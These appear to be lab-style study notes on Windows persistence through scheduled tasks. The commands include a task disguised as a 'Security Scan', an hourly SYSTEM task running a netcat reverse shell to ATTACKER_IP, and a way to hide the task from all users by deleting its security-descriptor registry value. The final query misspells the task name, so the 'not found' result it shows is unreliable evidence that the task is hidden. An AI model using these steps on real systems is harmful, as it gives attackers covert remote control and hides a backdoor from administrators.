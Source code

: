 # Task Scheduler

### Schtasks Quick Reference

```
#normal task 15 minutes 
SCHTASKS /create /sc minute /mo 15 /tn "Security Scan" /tr "C:\Windows\System32\spool\drivers\color\patch.exe" 
```

* The most common way to schedule tasks is using the built-in Windows task scheduler.
* Let's create a task that runs a reverse shell every single hour.

```
schtasks /create /sc hourly /mo 1 /tn TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "TaskBackdoor" has successfully been created.
```

* To check if our task was successfully created, we can use the following command:

```
schtasks /query /tn TaskBackdoor
Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
TaskBackdoor                         5/25/2022 8:08:00 AM   Ready
```

### Making Our Task Invisible

* Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable.
* To further hide our scheduled task, we can make it invisible to any user in the system by deleting its `Security Descriptor (SD)`. The security descriptor is simply an ACL that states which users have access to the scheduled task.
* If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. -
* Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.
* The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "`SD`" contains the security descriptor.
* **You can only erase the value if you hold `SYSTEM` privileges.**
* To hide our task, let's delete the `SD` value for the "`TaskBackdoor`" task we created before. To do so, we will use `psexec` to open Regedit with SYSTEM privileges:

```
c:\tools\pstools\PsExec64.exe -s -i regedit
```

* We will then delete the security descriptor for our task:
*

    <figure><img src="https://user-images.githubusercontent.com/75596877/181060133-34619dcd-33be-40f5-aa62-2fead6f2b4de.png" alt=""><figcaption></figcaption></figure>
* If we try to query our service again, the system will tell us there is no such task:

```
schtasks /query /tn TaskBackdoors
ERROR: The system cannot find the file specified.
```
